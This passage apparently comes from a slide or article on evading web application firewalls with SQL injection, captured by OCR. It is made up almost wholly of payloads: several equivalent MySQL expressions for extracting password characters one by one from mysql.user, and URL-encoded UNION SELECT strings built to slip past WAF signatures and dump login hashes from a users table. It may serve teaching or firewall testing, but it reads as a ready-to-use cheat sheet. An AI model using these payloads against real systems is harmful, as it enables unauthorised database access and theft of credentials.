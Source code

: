 and char(32)=' '
and 3\<=2
and 5\<=\>4
and 5\<=\>5
and 5 is null
or 5 is not null
....
<b>An example of various request notations with the same meaning.</b>
select user from mysql.user where user = 'user' OR
mid(password,1,1)='\*'
select user from mysql.user where user = 'user' OR
mid(password,1,1)=0x2a
select user from mysql.user where user = 'user' OR
mid(password,1,1)=unhex('2a')
select user from mysql.user where user = 'user' OR mid(password,1,1)
regexp '\[\*\]'
select user from mysql.user where user = 'user' OR mid(password,1,1)
like '\*'
select user from mysql.user where user = 'user' OR mid(password,1,1)
rlike '\[\*\]'
select user from mysql.user where user = 'user' OR
ord(mid(password,1,1))=42
select user from mysql.user where user = 'user' OR
ascii(mid(password,1,1))=42
select user from mysql.user where user = 'user' OR
find_in_set('2a',hex(mid(password,1,1)))=1
select user from mysql.user where user = 'user' OR position(0x2a in
password)=1
select user from mysql.user where user = 'user' OR
locate(0x2a,password)=1
<b>Known:
</b> substring((select 'password'),1,1) = 0x70
substr((select 'password'),1,1) = 0x70
mid((select 'password'),1,1) = 0x70
<b>New:</b>
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
STRCMP(expr1,expr2) returns 0 if the strings are the same, -1 if the
first , argument is smaller than the second one, and 1 otherwise.

<b>An example of signature bypass.</b>
The following request gets to WAF signature
/?id=1+union+(select+1,2+from+users) But sometimes, the signatures used
can be bypassed
/?id=1+union+(select+'xz'from+xxx)

`/?id=(1)union(select(1),mid(hash,1,32)from(users))`
`/?id=1+union+(select'1',concat(login,hash)from+users)`
`/?id=(1)union(((((((select(1),hex(hash)from(users))))))))`
`/?id=(1)or(0x50=0x50)`
